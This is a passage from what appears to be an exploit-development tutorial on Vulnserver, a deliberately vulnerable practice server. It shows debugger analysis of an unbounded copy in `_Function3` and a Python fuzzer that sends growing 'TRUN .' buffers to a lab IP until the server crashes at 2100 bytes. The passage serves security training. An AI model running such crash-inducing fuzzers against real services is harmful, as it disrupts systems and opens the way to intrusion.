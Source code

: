 
Let’s debug again but now with an input that starts with a `.`.

By stepping over a bit further there is an interesting function being called which is named `_Function3`. using `F7` to step into the function we can see that the function copies the content , but there are not any checks for buffer boundaries. literally we could overwrite it 

![vulnerable](/static/img/01/vulnerable.png)


### Fuzzing the Vulnserver

we write a simple Fuzzer to replicate the check unexpected crashes incrementing by 200 bytes each time with the following code:
```python
#!/usr/bin/python
import socket

buffer=["A"]
counter=100
while len(buffer) <= 30:
  buffer.append("A"*counter)
  counter=counter+200

for string in buffer:
  print "Fuzzing PASS with %s bytes" % len(string)
  s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect(('192.168.0.27',9999))
  s.recv(1024)
  s.send(('TRUN .' + string + '\r\n'))
  s.recv(1024)
  s.send('EXIT\r\n')
  s.close()
  ```

we can see the Vulnserver stop working at 2100 bytes.
